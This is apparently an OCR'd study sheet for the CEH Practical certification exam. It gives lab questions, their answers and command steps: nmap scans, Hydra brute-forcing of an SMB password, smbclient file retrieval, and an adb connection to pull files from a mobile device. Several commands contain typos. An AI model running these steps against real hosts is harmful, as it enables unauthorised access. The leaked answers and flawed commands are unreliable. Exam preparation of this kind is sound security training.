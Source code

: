 Step-1 in exam when login sudo arp-scan -local or netdiscover -i 10.10.1.0 or nmap -sn ip/24
https://github.com/dhabaleshwar/CEHPractical/tree/main https://github.com/cmuppin/CEH
1.Perform extensive scan of the target network and identify the FQDN of the Domain Controller.
Answer: AdminTeam.ECCCEH.com
1. nmap -p389 -sV 10.10.1.13/24
2. Go to 10.10.1.22 server and login and go to this pc then right click and go down click on rename this pc
advanced.
2.While investigating an attack, you found that a Windows web development environment was exploited to gain
access to the system. Perform extensive scanning and service enumeration of the target networks and identify the
IP address of the server running WampServer.
Answer: 172.20.0.16
1. namp -sV -A -p 80 10.10.1.13/24
3.Identify a machine with SMB service enabled in the 192.168.0.0/24 subnet. Crack the SMB credentials for user
Henry and obtain Sniff.txt file containing an encoded secret. Decrypt the encoded secret and enter the decrypted
text as the answer. Note: Use Henry's password to decode the text.
Answer: nvkwj2387
1. Scan the entire subnet for open smb ports. You can use the wordlist available on the desktop on Parrot
os. Use Hydra to crack it. The password for the encoded file is the same. If the file contains a hash, try to
decode it.
2. sudo nmap -T4 -Ss -p 139,445 - -script vuln 192.168.0.0/24
3. hydra-l henry -P /home/passlist.txt 192.168.0.1 smb
4. smbclient //192.168.0.1/share
5. smbclient -L 192.168.0.1
6. type password and ls
7. get sniff.txt ~/Desktop/falg2.txt or more sniff.txt
8. cat falg2.txt
9. now encrypt the text using the same henry login password in bctextencoder.exe manual open
4.An insider attack has been identified in one of the employees’ mobile devices in 192.168.0.0/24 subnet. You are
assigned to covertly access the user’s device and obtain malicious elf files stored in a folder "Scan". Perform deep
scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value.
Answer: 7aea
1. sudo nmap -p 5555 192.168.0.0/24
2. adb connect 192.168.0.14:5555
3. adb shell
4. ls and cd sdcard and ls and pwd
5. adb pull /sdcard/scan/ or adb pull /sdcard/scan attacker/home/
6. ls and cd scan and ls
7. ent -h or apt install ent
8. ent evil.elf
9. ent evil2.elf
10. ent evil3.elf
11. sha384sum evil.elf
12. then you get one hash value type last 4 characters.
5.Perform a vulnerability scan for the host with IP address 172.20.0.16. What is the severity score of a vulnerability
that indicates the End of Life of a web development language platform?
Answer: 10
1. nmap -Pn - -script vuln 172.20.0.16
2. now copy the CVE number which is vulnerable paste in goggle and see the value.
3. Most of the time “10”.
example CVE-2006-3392 https://www.cvedetails.com/cve/CVE-2006-3392/
6.Exploit a remote login and command-line execution application on a Linux target in the 192.168.0.0/24 subnet to
access a sensitive file, NetworkPass.txt. Enter the content in the file as answer.